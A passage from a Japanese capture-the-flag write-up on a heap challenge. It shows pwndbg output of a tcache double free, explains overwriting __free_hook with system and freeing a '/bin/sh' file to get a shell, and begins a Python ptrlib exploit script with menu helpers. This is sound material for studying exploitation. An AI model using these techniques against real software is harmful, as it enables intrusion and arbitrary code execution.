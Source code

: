 freeしたbigを小さいサイズで確保して、victimとそいつをfreeしてやれば次のようにdouble freeが発生しています。

```
pwndbg> tcache
{
  counts = "\000\000\000\000\000\002", '\000' <repeats 57 times>, 
  entries = {0x0, 0x0, 0x0, 0x0, 0x0, 0x55656aefd2f0, 0x0 <repeats 58 times>}
}
pwndbg> x/4xgx 0x55656aefd2f0
0x55656aefd2f0:	0x000055656aefd2f0	0x0000000000000000
0x55656aefd300:	0x0000000000000000	0x0000000000000000
```

ファイル数が足りなくなるのでkillerを最初に削除しました。
あとは`__free_hook`を`system`に変更して`/bin/sh`を書き込んだファイルを削除すれば終わり！


```python
from ptrlib import *

def add_file(name, size, data):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("name: ")
    sock.sendline(name)
    sock.recvuntil("size: ")
    sock.sendline(str(size))
    if size <= 0x50:
        sock.sendline(data)
    else:
        sock.send(data)

def add_dir(name):
    sock.recvuntil("> ")
    sock.sendline("3")
    sock.recvuntil("name: ")
    sock.sendline(name)

def change_directory(name):
    sock.recvuntil("> ")
    sock.sendline("5")
    sock.recvuntil("name: ")
    sock.sendline(name)

def show_file(name):
    sock.recvuntil("> ")
    sock.sendline("4")
    sock.recvuntil("name: ")
    sock.sendline(name)
    return sock.recvuntil("\n\n").rstrip()

def remove_file(name):
    sock.recvuntil("> ")
    sock.sendline("6")
    sock.recvuntil("name: ")
    sock.sendline(name)

def list_dir():
    sock.recvuntil("> ")
    sock.sendline("1")
    filelist = []
    while True:
        fname = sock.recvline().rstrip()
        if fname == b'':
            break
        filelist.append(fname)
```